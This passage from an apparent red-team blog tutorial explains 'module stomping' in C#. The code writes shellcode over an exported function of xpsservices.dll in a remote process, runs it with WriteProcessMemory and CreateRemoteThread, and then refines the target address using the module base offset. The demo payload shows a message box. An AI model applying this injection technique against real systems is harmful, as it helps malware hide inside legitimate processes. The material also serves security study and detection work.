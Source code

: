 - `DllCanUnloadNow`
- `DllGetClassObject`

So we could do:

```c#
var xps = Win32.LoadLibraryA("xpsservices.dll");
var funcAddress = Win32.GetProcAddress(xps, "DllCanUnloadNow");

// [...snip...] //

Win32.WriteProcessMemory(process.Handle, funcAddress, sc, (uint)sc.Length, out UIntPtr _);
Win32.CreateRemoteThread(process.Handle, IntPtr.Zero, 0, funcAddress, IntPtr.Zero, 0, IntPtr.Zero);
```

Moar boxes be poppin' and we can see the thread address is at the exported function.

![](/images/module-stomping/msgbox-func.png "MessageBox at Exported Function")

### Remote Address Stability

When we load `xpsservices.dll` into our current process and do `GetProcAddress`, we're making an assumption that the exported function will be at the same address in the remote process.  Although 9/10 times this is probably true, it's not a guarantee.

So instead of using this address verbatim we can use it to calculate the offset from the module's base address, because this will be the same (assuming we're not injecting into an x64 process from an x86 and vice versa).

```c#
// Get address of exported function in our process
var xps = Win32.LoadLibraryExA("xpsservices.dll", IntPtr.Zero, DONT_RESOLVE_DLL_REFERENCES);
var funcAddress = Win32.GetProcAddress(xps, "DllCanUnloadNow");

// Calculate the offset from the base address and the exported function address
var funcOffset = (long)funcAddress - (long)xps;

// Get the target process and iterate through the modules
process = Process.GetProcessById(process.Id);

IntPtr remoteFuncAddress;

foreach (ProcessModule module in process.Modules)
{
    if (module.ModuleName.Equals("xpsservices.dll", StringComparison.OrdinalIgnoreCase))
    {
        // Get the module's base address and add our calculated offset to it
        remoteFuncAddress = new IntPtr((long)module.BaseAddress + funcOffset);
        break;
    }
}
```

Hopefully this will help address (no pun intended) those edge cases.

